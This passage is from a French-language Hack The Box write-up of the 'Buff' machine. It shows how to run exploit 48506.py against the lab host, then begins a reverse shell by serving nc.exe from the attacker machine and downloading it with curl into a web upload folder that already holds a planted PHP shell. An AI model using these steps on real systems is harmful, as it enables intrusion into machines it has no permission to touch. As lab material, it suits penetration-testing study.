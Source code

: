 ![Website](/img/Buff_3.png){: .center-block :}

=======================

/!\ Apres update sous Kali 2020 la commande devient 

`root@Host-001:~/Bureau/htb/buff# python2.7 48506.py http://10.10.10.198:8080/`

penser à installer le lib manquantes avec:

~~~
pip2.7 install requests
pip2 install colorama==0.2.2
~~~

pour installer pip2.7 et pip2 si pas encore installé:

~~~
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python2 get-pip.py
~~~

voir : [https://forums.kali.org/showthread.php?48570-New-Kali-build-cannot-install-pip-for-python2-7](https://forums.kali.org/showthread.php?48570-New-Kali-build-cannot-install-pip-for-python2-7)

=======================

On ne peut pas se déplacer avec cd, il nous faut donc un reverse shell

~~~
root@Host-001:~/Bureau/htb/buff# ls
buff  nc.exe
root@Host-001:~/Bureau/htb/buff# python -m SimpleHTTPServer 80
~~~

Sur le serveur Windows

~~~
C:\xampp\htdocs\gym\upload> curl http://10.10.14.70/nc.exe --output nc.exe
�PNG
�

C:\xampp\htdocs\gym\upload> dir 
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

21/07/2020  09:37    <DIR>          .
21/07/2020  09:37    <DIR>          ..
21/07/2020  09:35                53 kamehameha.php
21/07/2020  09:36            59,392 nc.exe
21/07/2020  09:37            45,272 nc64.exe
~~~